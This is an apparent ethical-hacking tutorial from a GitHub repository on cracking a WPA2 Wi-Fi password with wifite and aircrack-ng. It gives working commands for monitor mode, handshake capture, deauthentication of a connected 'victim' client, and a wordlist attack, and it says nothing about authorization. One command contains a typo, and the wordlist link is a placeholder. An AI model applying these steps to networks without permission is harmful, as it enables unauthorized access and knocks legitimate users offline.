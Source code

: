 ***Before Doing This You should checkout /Basics%wireless***

# **Wifi Hacking**
1. [Using Wifite](#1.-using-wifiteeasiest)
2. [Using Aircrack-ng](#2.-using-aircrack-ng)




### **1. Using wifite**(easiest)

### ***Requirements***
 - [`linux`]()
 - [`wifite`]()

### **Steps**

```
wifite

```

### **POC**

![wifite](https://github.com/aruncs31s/ethical-hacking/blob/main/video/wifite.gif?raw=true)

### **2. Using Aircrack-ng**


#### Steps With Example
***In this Example i am going to crack the password of a wifi Access point with the name "318 2.4GHz***

#### Tools Used

```
aircrack-ng ip iw 

```


#### Steps

1. **Get the `bssid` of the target : there are multiple methods to obtain bssid and channel** 

##### **Method 1 Using iwlist**

- Open a terminal and type the following command
*You can use the following commands to obtain the bssid*
```
iwlist wlan0 scan
```
*replace the wlan0 with the wireless interface name of the one you have it maybe wlan1 if you are using a external adapter that support packet injection*

<details>

<summary> Find the interface Name ? </summary>

1. Open your terminal 
2. type `ifconfig` 
    or if you dont have ifconfig use `ip a`

</details>

![ifconfig](img/ifconfig.png)

*you can see mine is wlan0*

![ip a](./img/ip_a.png)

</details>

![iwlist wlan0](./img/iwlist_info.png)

 You can see some usefull informations like
`bssid` `essid` `channel` etc

To Crack the password we only need `channel` , `bssid` and that is 

bssid = `AE:09:74:80:CC:3E`
channe = `1`

##### **Method 2 using airodump-ng**

1. Open a terminal and type `sudo airodump-ng wlan0`

```
sudo airodump-ng wlan0
```

after running the the command you will get the following output

```
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

AE:09:74:80:CC:3E  -59       91        0    0   1  180   WPA2 CCMP   PSK  318 2.4GHz  

```



*again replace the wlan0 with your wifi interface name*

![](./img/airodum-ng_scan.png?raw=true)

We can see see that we have obtained the follwing information that we whanted

bssid   = `AE:09:74:80:CC:3E`
channel = `1`

<details>
<summary>Warning: </summary>
***You should always remember we are attacking the network named `318 2.4GHz` and that name is its `essid`

```

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

AE:09:74:80:CC:3E  -59       91        0    0   1  180   WPA2 CCMP   PSK  318 2.4GHz  

```

***the `essid` is shown at the end make sure it matches the victim's wifi name***
</details>


2. **Change You wifi card's mode from managed to monitor**

- Now stop the airodum-ng's proccess by pressing `CTRL+C`(Keyboard interrupt)
- type 

```
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

<details>
<summary>Explenation</summary>

</details>


3. **Make New directory to store `.cap` file**

for example

```
mkdir 318_capfiles
```
*you can also store the files in an existing directory but that will make a mess*


4. **Again run the airodump-ng to listen to that target** 

- type the following in you terminal

```
sudo airodump-ng -c 1--bssid AE:09:74:80:CC:3E -w /home/aruncs/Desktop/318_capfiles wlan0
```

***Change the directry name to you need to store the .cap file***

![](./img/working_dir.png?raw=true)


- after typing the command you can see a similar output like in following

![](./img/airodump_listen.png?raw=true)


*you will notice that the output is similar to that of the previous on whe we ran `sudo airodump-ng wlan0`*


5. In this stage we have to capture a hand shake
*In order to capture that some one should be alredy connected to that network*

- we waite for some one to connect
- if someone is alredy connected the we can obtain the following thing

![](./img/airodump-station.png?raw=true)

We can see that the above scree shot contains a new set of details and one of them is the `station`

station = `2C:57:31:4F:DE:E6`


6. Use aireplay-ng to send deauth requests

- open up a new terminal and type the following

```

sudo aireplay-ng -0 10 -a AE:09:74:80:CC:3E -c 2C:57:31:4F:DE:E6 wlan0

```
![](./img/deauth.png?raw=true)


- after running the aireplay-ng we will be able to capture a handshake 

![](./img/handshake.png?raw=true)

![](./img/cap_files.png?raw=true)

![](./img/capfile.png?raw=true)



7. Use the aircrack-ng to crack the captured file

- you should need a wordlist to do this step which can be obtained from [here](abc.com)


- stop the airodump-ng 


- type the following in your terminal 

```

sudo aircrack-ng -a2 -b AE:09:74:80:CC:3E -w /home/aruncs/Desktop/wordlist.txt /home/aruncs/Desktop/318_capfiles/*.cap 

```

- whoalah the password is cracked



![](./img/cracked.png?raw=true)






